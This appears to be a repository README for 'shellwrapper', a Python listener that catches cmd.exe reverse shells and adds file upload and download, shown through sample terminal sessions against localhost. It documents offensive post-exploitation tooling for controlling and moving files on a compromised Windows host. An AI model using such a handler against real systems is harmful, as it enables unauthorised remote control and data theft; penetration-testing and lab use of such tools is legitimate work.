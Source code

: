 # shellwrapper
A generic reverse shell listening server that allows uploading and downloading of files over the shell connection.

# Usage
Start the wrapper on a port using
```
> python3 wrapper.py 4444
Listening on port 4444
```
Run the cmd.exe reverse shell on the target.
```
Connection received from ('127.0.0.1', 65146)
dodowrapper$ help
shell     interact with the shell
download  download a file from the target
upload    upload a file to the target
exit      quit
dodowrapper$
```
Download a file
```
dodowrapper$ download test.txt
dodowrapper$
```
Upload a file
```
dodowrapper$ upload test.txt
upload successful
```
Interact with shell
```
dodowrapper$ shell
Microsoft Windows [Version 10.0.19044.2130]
(c) Microsoft Corporation. All rights reserved.

C:\Users\dodo\Desktop\Code>whoami
whoami
computer\dodo

C:\Users\dodo\Desktop\Code>
```
